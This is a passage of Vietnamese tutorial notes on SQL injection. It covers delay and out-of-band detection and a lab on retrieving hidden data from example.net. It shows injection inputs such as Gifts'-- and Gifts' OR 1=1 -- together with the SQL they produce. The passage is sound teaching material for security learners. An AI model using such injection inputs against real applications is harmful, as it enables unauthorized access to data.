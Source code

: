 ``Nếu phản hồi chậm đúng số giây → khả năng cao là lỗ hổng tồn tại.``

* **Thử payload OAST (Out-of-Band Application Security Testing)**


``Gửi payload khiến server kết nối ra ngoài (ví dụ về Burp Collaborator).``

``Nếu có kết nối đến server của bạn → lỗ hổng xác nhận.``

> SQLi có thể xảy ra ở bất kỳ vị trí nào và trong các loại truy vấn khác.

## Lấy dữ liệu ẩn
Là cách khai thác lỗ hổng SQLi để xem các dữ liệu mà ứng dụng cố tình không hiển thị.

Bằng cách thay đổi các truy vấn gốc để trả về thêm các kết quả bổ sung.
### Ví dụ
**Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data**

Khi người dùng thực hiện lọc `category` với giá trị là `Gifts`:

```
https://example.net/filter?category=Gifts
```

<p align="center"><b>🠋 truy vấn SQL 🠋</b></p>

```sql
SELECT * FROM products WHERE category='Gifts' AND released = 1;
```

Với `AND released = 1` là các sản phẩm đã được phát hành còn `AND released = 0` sẽ là các sản phẩm chưa được phát hành.  

Nếu thay đổi URL với dạng:

```
https://example.net/filter?category=Gifts'-- 
```

<p align="center"><b>🠋 truy vấn SQL 🠋</b></p>

```sql
SELECT * FROM products WHERE category='Gifts'-- ' AND released = 1;
```

Với truy vấn này tất cả sản phẩm trong `category='Gifts'` sẽ được hiển thị tất cả dù chưa phát hành do `-- ` được chèn vào đã comment điều kiện `AND released = 1`.

Với một trường hợp khác:

```
https://example.net/filter?category=Gifts' OR 1=1 -- 
```

<p align="center"><b>🠋 truy vấn SQL 🠋</b></p>

```sql
SELECT * FROM products WHERE category='Gifts' OR 1=1 -- ' AND released = 1;
```

Trong truy vấn này điều kiện `WHERE category='Gifts' OR 1=1` nếu một điều kiện OR là đúng, thì toàn bộ điều kiện sẽ đúng cho mọi dòng → không lọc gì nữa.
